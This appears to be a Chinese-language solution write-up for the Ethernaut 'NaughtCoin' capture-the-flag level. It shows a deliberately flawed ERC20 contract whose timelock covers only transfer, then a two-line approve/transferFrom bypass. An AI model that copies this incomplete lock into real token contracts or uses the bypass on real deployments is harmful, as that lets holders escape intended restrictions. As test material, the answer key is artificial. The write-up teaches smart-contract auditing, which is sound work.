


> NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.
>
>  Things that might help
>
> - The [ERC20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) Spec
> - The [OpenZeppelin](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) codebase


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```


在之前问过ai关于ERC20，提到了一个很关键的点：




而本关的合约没有override所有的必选方法，**只override了transfer**，所以我们可以通过approve + 这些来进行，绕过lockTokens的验证。


```js
await contract.approve(player,toWei("1000000"))

await contract.transferFrom(player,contract.address,toWei("1000000"))
```




> When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that `transfer` is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.


又是web3安全区别于传统安全的一大特点！